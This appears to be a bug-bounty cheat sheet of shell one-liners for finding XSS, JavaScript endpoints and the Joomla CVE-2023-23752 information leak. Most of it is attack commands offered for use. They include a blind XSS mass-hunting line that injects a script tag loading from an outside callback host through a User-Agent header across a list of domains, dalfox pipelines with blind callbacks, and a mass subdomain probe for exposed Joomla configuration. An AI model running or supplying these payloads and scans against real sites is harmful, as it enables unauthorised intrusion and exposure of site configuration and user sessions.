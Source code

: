
## OneLiner
```
echo http://testphp.vulnweb.com | katana -jc -f qurl -d 5 -c 50 -kf robotstxt,sitemapxml -silent | dalfox pipe --skip-bav
```

```
waybackurls http://testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee XSS.txt && cat XSS.txt | dalfox -b http://chirag.bxss.in pipe > output.txt
```

```
cat http://target.com | gau --subs | grep "https://" | grep -v "png\|jpg\|css\|js\|gif\|txt" | grep "=" | uro | dalfox pipe --deep-domxss --multicast --blind https://chirag.bxss.in
```

### Blind XSS Mass Hunting

```
cat domain.txt | waybackurls | httpx -H "User-Agent: \"><script src=https://chirag.bxss.in></script>"
```
────────────────────────────────────────────────────────────────────────



# Find Endpoints in JS

## Installation Requirements
1. Katana    : https://github.com/projectdiscovery/katana
2. Anew      : https://github.com/tomnomnom/anew


## OneLiner
```
katana -u http://testphp.vulnweb.com -js-crawl -d 5 -hl -filed endpoint | anew endpoint.txt
```

────────────────────────────────────────────────────────────────────────

# OneLiner for CVE-2023-23752 - 𝙅𝙤𝙤𝙢𝙡𝙖 𝙄𝙢𝙥𝙧𝙤𝙥𝙚𝙧 𝘼𝙘𝙘𝙚𝙨𝙨 𝙘𝙝𝙚𝙘𝙠 𝙞𝙣 𝙒𝙚𝙗𝙨𝙚𝙧𝙫𝙞𝙘𝙚 𝙀𝙣𝙙𝙥𝙤𝙞𝙣𝙩

## Installation Requirements
1. Subfinder  : https://github.com/projectdiscovery/subfinder
2. HTTPX      : https://github.com/projectdiscovery/httpx

## OneLiner
```
subfinder -d http://TARGET.COM -silent -all | httpx -silent -path 'api/index.php/v1/config/application?public=true' -mc 200
```
